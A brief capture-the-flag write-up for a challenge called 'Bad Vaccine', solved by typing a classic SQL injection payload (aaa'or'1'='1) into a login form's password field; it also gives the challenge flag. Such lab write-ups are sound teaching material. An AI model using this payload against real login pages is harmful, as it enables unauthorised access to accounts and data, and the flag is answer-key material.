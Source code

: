 # Bad Vaccine

Find out what are the bad vaccines and destroy them.

http://vaccine.nypinfsecctf.tk/

## Solution

1. When presented with a login page, I always try a SQL Injection first. To perform the SQL Injection, input the following details into their respective fields.
```
Username: admin
Password: aaa'or'1'='1
```
```
Flag: NYP{3z_sQL_iNJ3cTi0n}
```
